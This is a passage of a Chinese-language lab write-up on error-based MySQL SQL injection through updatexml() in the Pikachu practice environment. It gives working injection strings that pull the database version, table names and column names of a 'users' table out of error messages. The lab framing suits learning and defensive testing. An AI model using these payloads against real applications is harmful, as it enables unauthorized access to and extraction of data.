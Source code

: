 **select 下的报错演示**

select/insert/update/delete 都可以使用报错来获取信息.

- **UPDATEXML(xml_document,XPathstring,new_value)**

    Updatexml() 函数作用:改变(查找并替换)XML文档中符合条件的节点的值.
    - 第一个参数:fiedname是String格式,为表中的字段名.
    - 第二个参数:XPathstring(Xpath格式的字符串).
    - 第三个参数:new_value,String格式,替换查找到的符合条件的 X

改变 XML_document 中符合 XPATH_string 的值

而我们的注入语句为: `a' and updatexml(1,concat(0x7e,(SELECT @@version)),0)#`

其中的 concat() 函数是将其连成一个字符串,因此不会符合 XPATH_string 的格式,从而出现格式错误,爆出 `ERROR 1105 (HY000): XPATH syntax error: ':root@localhost'`

获取数据库表名,输入:`a' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='pikachu')),0)#` ,但是反馈回的错误表示只能显示一行,所以采用 limit 来一行一行显示

![image](../../../../assets/img/安全/实验/Misc/pikachu/35.png)

输入 `a' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='pikachu'limit 0,1)),0)#` 更改limit后面的数字pikachu'limit 0,爆表名

![image](../../../../assets/img/安全/实验/Misc/pikachu/36.png)

![image](../../../../assets/img/安全/实验/Misc/pikachu/37.png)

![image](../../../../assets/img/安全/实验/Misc/pikachu/38.png)

字段名 `a' and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_name='users'limit 0,1)),0)#` 更改limit后面的数字,爆表名

![image](../../../../assets/img/安全/实验/Misc/pikachu/39.png)

![image](../../../../assets/img/安全/实验/Misc/pikachu/40.png)
